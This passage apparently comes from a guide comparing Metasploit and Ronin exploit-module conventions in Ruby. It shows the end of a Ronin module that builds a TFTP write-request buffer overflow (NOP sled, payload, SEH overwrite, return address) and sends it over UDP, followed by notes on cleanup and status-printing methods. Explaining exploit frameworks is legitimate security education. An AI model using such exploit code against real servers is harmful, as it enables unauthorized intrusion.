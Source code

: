```ruby

        evil = lead + nopsled + payload + near + nseh + target.ret.pack(:uint32_le)

        # send the WRQ packet (header "\x00\x02")
        mode    = "netascii"
        @buffer = "\x00\x02" + evil + "\0" + mode +"\0"
      end

      def launch
        # connect to the remote service, send the data, return the open socket
        @socket = udp_connect_and_send(@buffer)
      end

      def cleanup
        # close the open socket
        @socket.close
      end

    end
  end
end
```

## `cleanup` method

Both Metasploit and Ronin define a `cleanup` method for additional logic to
cleanup after the exploit.

## Printing

### Metasploit

Metasploit provides a set of methods for printing status messages from an
exploit:

```ruby
    print_status "Running the Javascript shell..."
    # ...

    print_warning("Unable to retrieve token")
    # ...

    print_error('Connection failed.')
    # ...
```

### Ronin

Ronin also provides a similar set of methods for printing status messages
from an exploit:
